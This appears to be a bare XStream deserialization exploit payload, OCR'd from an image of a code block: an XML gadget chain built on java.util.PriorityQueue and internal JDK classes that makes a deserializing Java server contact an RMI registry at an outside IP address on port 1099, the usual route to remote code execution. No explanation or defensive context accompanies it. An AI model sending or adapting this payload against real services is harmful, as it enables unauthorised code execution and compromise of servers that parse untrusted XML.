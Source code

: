 ```bash
<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>182.92.161.222</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>182.92.161.222</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

